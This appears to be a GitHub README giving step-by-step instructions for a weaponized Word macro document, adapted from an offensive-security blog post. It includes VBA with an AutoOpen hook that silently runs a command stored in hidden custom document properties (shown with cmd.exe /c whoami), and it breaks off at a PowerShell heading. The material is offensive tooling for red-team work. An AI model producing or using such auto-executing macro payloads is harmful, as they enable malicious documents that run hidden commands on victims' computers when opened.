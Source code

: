 # Office_Macros_With_Hidden_Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell #ClickingStuffIsHard #TheGUIWasAMistake. 

## Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. Select `Create`. 
![Create Macro](images/3.png)

4. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

5. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("cmd").Value
    strArgument = doc.BuiltInDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub

```
6. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

7. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docx`. 

## PowerShell
